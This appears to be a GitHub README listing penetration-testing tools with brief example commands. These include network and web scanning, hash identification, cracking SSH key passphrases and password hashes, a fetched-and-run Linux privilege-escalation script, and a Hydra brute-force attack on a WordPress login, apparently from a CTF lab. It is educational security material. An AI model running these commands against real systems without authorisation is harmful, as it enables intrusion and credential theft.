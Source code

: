 # AHackersToolbox
A list of Penetration Testing (Hacking) tools that can be used, as well as some helpful information and examples. For educational purposes only.

**Note**: No download procedures means it comes with kali linux.

![Monty Python](intruder.png) ![Monty Python](intruder.png)


Searchspoit
-----------

```
searchsploit -w wordpress 4.x
```


Nmap
----
Network scanning tool: Use this to identify open ports, running services and other information about the server.

```
nmap -v -A 1.2.3.4
```


DIRB
----
Web scanner. Use this to find file paths, directories, etc; of content on a webapp

```
dirb -w http://1.2.3.4
```


Enum4Linux
----------

```
```


Aircrack-ng
-----------
Brute force WiFi password cracking.

```
```


HashID
------
Use this to assist in determining what type of hash is being dealt with. The output of this can help you determine settings needed in hashcat or johntheripper

```
hashid -m -j hash.txt
```


SSH2John
--------
Strip an ssh2 format private key file of its encryption hash for cracking with JohnTheRipper.

Note: Private key files (ex. id_rsa) can be password protected to help secure them in case they are lost/stolen, ssh2john retrieves the hashed password.

**Download and Run**
```
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
python ssh2john.py id_rsa > id_rsa.hash
```


JohnTheRipper
-------------
Brute force password cracking of hashed passwords

```
john --wordlist=/path/to/wordlist.txt --format=format hash.txt
```


HashCat
-------
Bruce force password cracking of hashes

List of all hashcat modes: https://hashcat.net/wiki/doku.php?id=hashcat

```
hashcat -m 3200 hash.txt /path/to/wordlist
```


LinEnum
-------
Use this to assist in locating potential methods of privelege escalation on linux.

**Download, make executable, and run**
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -s -r report -t
```


Hydra
-----
Network brute force login cracker

```
hydra -l Elliot -P fsocity.dic 10.10.103.0 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.103.0%2Fwp-admin%2F&testcookie=1:F=is incorrect'
```
